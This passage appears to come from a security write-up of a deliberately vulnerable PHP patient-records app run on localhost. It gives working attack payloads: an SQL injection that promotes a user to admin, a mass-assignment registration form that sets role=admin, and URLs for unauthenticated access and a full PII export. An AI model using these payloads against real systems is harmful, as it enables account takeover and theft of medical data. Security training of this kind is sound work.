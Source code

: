 **Unauthenticated Access**:
```
http://localhost:8080/search.php (No login required)
http://localhost:8080/api.php (API documentation public)
```

**Privilege Escalation**:
```sql
-- Register as admin via SQL injection
' ; UPDATE users SET role='admin' WHERE username='attacker' -- 
```

---

### 11. Mass Assignment / Parameter Tampering

**Location**: `register.php`
**Severity**: MEDIUM

#### Exploitation:

Create admin account during registration:
```html
<form method="POST" action="register.php">
  <input name="username" value="hacker">
  <input name="password" value="hacked">
  <input name="email" value="hacker@evil.com">
  <input name="role" value="admin">  <!-- Escalate to admin! -->
  <input type="submit">
</form>
```

---

### 12. Sensitive Data Exposure

**Location**: Database and exports
**Severity**: CRITICAL

#### Vulnerabilities:
- SSN stored in plain text
- No encryption at rest
- No encryption in transit (HTTP)
- CSV export with full PII

#### Exploitation:

**Export All Patient Data**:
```
http://localhost:8080/reports.php?export=csv
```
Downloads complete database with SSNs, medical records, etc.

---

## 🔴 Attack Scenarios
